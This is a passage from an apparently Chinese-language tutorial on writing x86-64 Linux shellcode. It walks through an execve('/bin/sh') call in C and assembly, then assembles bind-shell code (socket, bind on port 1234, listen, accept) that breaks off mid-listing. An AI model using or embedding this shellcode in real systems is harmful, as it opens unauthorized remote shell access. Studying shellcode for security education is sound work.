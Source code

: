 然后，我们添加我们的`execve`系统调用：

```
char * const argv[] = {"sh",NULL, NULL};
execve("/bin/sh", argv, NULL);
return 0;

xor rax, rax
push rax
mov rdx, rsp
mov rbx, 0x68732f6e69622f2f
push rbx
mov rdi, rsp
push rax
push rdi
mov rsi,rsp
add rax, 59
syscall
```

现在，一切都准备好了；让我们将所有部分放在一个代码中：

```
global _start

section .text

_start:

;Socket syscall
    xor rax, rax
    add rax, 41
    xor rdi, rdi
    add rdi, 2
    xor rsi, rsi
    inc rsi
    xor rdx, rdx
    syscall

; Save the sockfd in RDI Register 
    mov rdi, rax

;Creating the structure 
    xor rax, rax 
    push rax
    push word 0xd204
    push word 0x02
;Bind syscall
    mov rsi, rsp
    xor rdx, rdx
    add rdx, 16
    xor rax, rax
    add rax, 49
    syscall

;Listen syscall
    xor rax, rax
    add rax, 50
    xor rsi , rsi
    inc rsi
    syscall

;Accept syscall
    xor rax , rax
    add rax, 43
```